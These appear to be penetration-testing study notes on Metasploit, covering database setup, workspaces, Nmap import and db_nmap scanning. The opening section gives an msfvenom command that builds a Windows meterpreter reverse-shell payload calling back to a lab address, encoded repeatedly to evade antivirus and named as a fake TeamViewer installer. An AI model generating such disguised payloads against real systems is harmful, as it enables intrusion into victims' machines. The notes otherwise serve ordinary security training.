 #### Generating Payload - With Encoding
* Use multiple iterations of same encoding to hide the payload better
  * `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe`
* Use `msf-virustotal` to further analyze the payload (free API-Key needed)
  * `msf-virustotal -k <API key> -f TeamViewerInstall.exe`

### Databases
* Msfconsole has built-in support for `PostgreSQL`

#### Setting up the Database
* Check if PostgreSQL server is up and running
  * `sudo service postgresql status`
* Start PostgreSQL
  * `sudo systemctl start postgresql`

#### MSF - Initiate a Database
* `sudo apt update && sudo msfdb init`
* Check the status
  * `sudo msfdb status`

#### MSF - Reinitiate the Database
* To change password of an existing Database
```bash
$ msfdb reinit
$ cp /usr/share/metasploit-framework/config/database.yml ~/.msf4/
$ sudo service postgres restart
$ msfconsole -q
```

#### MSF - Connect to the Initiated Database
* `sudo msfdb run`

#### Using the Database
* Workspaces
  * Like a folder in a project
  * Segregate the different scan results, hosts, and extracted information by IP, subnet, network, or domain
  * Use the `workspace` keyword to display the current Workspace list
    * Add `-a` or `-d` to add or delete that workspace
  * The default Workspace is called `default` and is in use indicated by the `*` symbol
  * Use the `workspace [name]` keyword to switch Workspaces
  * Use the `workspace -h` keyword to show more options

#### Importing Scan Results
* Import Nmap (.xml) scan of a host into the Database's Workspace
  * Use `db_import <filename> [file2 ..]`
* After import check with `hosts` and `services` for information

#### Using Nmap inside MSFconsole
* `msf6 > db_nmap -sV -sS 10.10.10.8`
